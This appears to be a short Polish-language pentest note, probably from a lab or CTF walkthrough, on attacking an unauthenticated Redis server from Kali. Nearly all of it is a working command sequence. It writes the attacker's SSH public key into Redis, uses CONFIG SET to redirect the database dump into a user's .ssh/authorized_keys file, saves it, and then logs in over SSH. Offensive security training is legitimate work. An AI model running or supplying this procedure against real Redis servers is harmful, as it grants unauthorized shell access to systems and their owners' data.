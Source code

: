 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# serwer danych redis

**Kali**

{% code fullWidth="true" %}
```python
apt install redis-tools

#łaczymy się z serwerem
redis-cli -h 172.15.0.11
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```python
#generowanie kluczy uwierzytelniających
ssh-keygen -t rsa -b 2048

#dodajemy dwie puste linijki nad kluczem i pod nim
vim id_rsa.pub

#przekazujemy nasz klucz do serwera redis
cat id_rsa.pub | redis-cli -h 172.15.0.11 -x set keyvalue

#podgląd klucza z serwera redis
redis-cli -h 172.15.0.11
get keyvalue

#wskazujemy katalog do którego będziemy zapisywali backupy - tu znajdują się klucze publiczne użytkowników do logowania się
config set dir /home/cheesus/.ssh/

#wskazujemy plik do backupu
config set dbfilename "authorized_keys"
save

#logowanie się na serwer
ssh -i ./id_rsa cheesus@172.15.0.11
```
{% endcode %}
